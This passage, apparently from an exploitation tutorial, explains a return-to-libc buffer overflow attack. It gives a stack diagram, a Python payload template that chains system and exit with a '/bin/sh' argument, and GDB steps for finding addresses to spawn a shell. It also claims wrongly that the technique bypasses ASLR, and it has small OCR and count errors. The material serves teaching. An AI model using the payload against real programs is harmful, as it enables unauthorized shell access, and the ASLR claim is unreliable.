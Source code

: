 ```
                +----------------------+       +----------------------+
                |     sa^ed $ebp       |       |       padding        |
                +----------------------+       +----------------------+
                |                      |       |                      |
                +----------------------+       |                      |
                |    local variables   |       |                      |
                |                      |       |                      |
                |                      |       |                      |
                |                      |       |                      |
                |                      |       |                      |
                +----------------------+       |                      |
                |                      |       |                      |
                |                      |       |                      |
                |     unused space     |       |                      |
                +                      +       +                      +
```
The buffer overflow has to override stack in such a way that to the next function the stack should look like the 2nd diagram.

#### Executing Return 2 libc.

The way the stack has to be overridden to call `system` will follow the same approach, in that case the `next` function that we were talking about so long will be `system`. In case of graceful exit of the program I will mark the return address of system with the call to `exit` :smile: Another `return2lib` from `system`.  
The exploit payload would look something like this:
``echo -e `python -c "import struct; print 'A'*108 + 'BBBB' + 'CCCC' + struct.pack('<I', <address of system>) + struct.pack('<I', <address of exit>) + <Address of argument to system>"` ``

Next stuff is to find the address of `system`, `exit` and `argument to system`(which would be `"/bin/sh"`) to invoke the shell. We can find the address of `system` and `exit` using `GDB`. But how to get the address of string `"/bin/sh"`, which is not present even in the program.  
Again environment variable can help us in the same as they are also pushed on the top of stack. Create one environment variable like:  
`export SHELL="/bin/sh"`  
Run GDB, and print the values of say 500 string entries from `$esp`.  
`gef> x/100s $esp`  
And see where your string lies. Now we have all these address, fill the exploit template :cool: we did that as well.

#### What we learnt?
The stack will be shifted by one if we have to return from one function to mimic the call to another function. That's why extra 4 bytes of 'CCCC' is added in the exploit pay load.  
Also this exploitation allows use bypass ASLR protection.

